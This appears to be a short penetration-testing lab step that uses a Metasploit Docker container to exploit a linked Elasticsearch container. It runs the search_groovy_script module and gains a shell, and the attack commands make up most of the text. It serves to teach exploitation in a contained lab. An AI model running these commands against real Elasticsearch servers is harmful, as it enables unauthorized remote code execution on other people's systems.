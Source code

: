 The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

Metasploit is a collection of exploits that can be used to test vulnerabilities.

# Start Metasploit

`docker run -it --link es:es --entrypoint bash benhall/metasploit`{{execute}}

Fix launch script and start (it can take a few moments to initialise, create the database schema and load the framework).

`chmod +x start.sh && ./start.sh`{{execute}}

# Exploit ES via Metasploit

`use exploit/multi/elasticsearch/search_groovy_script`{{execute}}

`set TARGET 0`{{execute}}

`set RHOST es`{{execute}}

`exploit`{{execute}}

# You have shell access to ES container!

`ls`{{execute}}

`ls /`{{execute}}
